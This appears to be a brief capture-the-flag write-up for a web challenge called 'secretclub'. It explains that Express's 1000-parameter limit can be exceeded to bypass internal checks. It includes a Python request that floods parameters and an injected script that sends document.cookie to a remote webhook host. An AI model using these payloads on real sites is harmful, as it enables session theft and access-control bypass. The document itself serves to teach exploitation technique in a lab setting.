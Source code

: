 # Web - secretclub

Express has a default limit on the number of parameters it accepts in a 
single request. This limit is set to 1000 by default. 
For more details, refer to the [Express body-parser documentation](https://github.com/expressjs/body-parser#parameterlimit).

By crafting a request with more than 1000 parameters, 
you can potentially bypass some internal checks, 
leading to unintended behavior.

Here's an example that demonstrates how to craft a request with more than 1000 parameters using Python's `requests` library:

```py
import requests

print(requests.get(f'https://secretclub.1337.sb?role=123{"&"*999}'))
```

To exploit this vulnerability, 
you could attempt to send a payload that changes 
the user's role and injects a script to send `document.cookie`
to a remote server. Here's an example of a payload that could 
be used to achieve this:

```js
<script>
    fetch(`http://webhook/?${encodeURIComponent(document.cookie)}`)
</script>
```
